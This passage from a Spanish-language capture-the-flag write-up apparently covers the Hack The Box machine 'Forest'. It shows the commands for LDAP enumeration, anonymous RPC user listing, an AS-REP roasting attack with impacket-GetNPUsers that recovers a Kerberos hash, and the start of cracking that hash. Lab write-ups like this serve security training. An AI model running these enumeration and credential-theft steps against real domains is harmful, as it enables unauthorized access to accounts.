 ```bash
ldapsearch -x -H ldap://10.10.10.161 -s base | grep defaultNamingContext
```

<figure><img src="../../../../../.gitbook/assets/725_vmware_8wilgq4giw.png" alt=""><figcaption></figcaption></figure>

Procederemos a añadir la línea del dominio en el archivo **/etc/hosts** con su respectiva dirección IP.

```bash
catnp /etc/hosts | grep htb.local
```

<figure><img src="../../../../../.gitbook/assets/726_vmware_HOQ7uEuw8K.png" alt=""><figcaption></figcaption></figure>

## RPC Enumeration - Getting valid domain users

Utilizamos **rpcclient** con el comando **enumdomusers** para enumerar los usuarios del dominio en el servidor SMB con IP 10.10.10.161. Este comando permite la conexión anónima y proporciona una lista de usuarios sin necesidad de credenciales.

Redirigiremos el resultado a un archivo llamado "users" y comprobaremos el contenido del archivo.

{% code overflow="wrap" %}
```bash
rpcclient -U "" 10.10.10.161 -N -c enumdomusers | grep -oP '\[.*?\]' | grep -v "0x4" | tr -d '[]' > users

catnp users
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/729_vmware_Fofsg9k3VG.png" alt=""><figcaption></figcaption></figure>

## Perform an AS-RepRoast attack with the obtained users

Ejecutamos la herramienta de **impacket-GetNPUsers** con las opciones `-no-pass` y `-usersfile users` para obtener los usuarios que pueden realizar autenticación con Kerberos en el dominio htb.local a través del fichero de los usuarios enumerados.&#x20;

Comprobamos que obtenemos el hash krb5 del usuario "svc-alfresco".

{% code overflow="wrap" %}
```bash
impacket-GetNPUsers -no-pass -usersfile users htb.local/ 2>/dev/null
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/730_vmware_uwT5vEixIZ.png" alt=""><figcaption></figcaption></figure>

## Cracking hashes with Hashcat

Nos guardaremos el hash en un archivo llamado "hash.txt"

```bash
catnp hash.txt
```
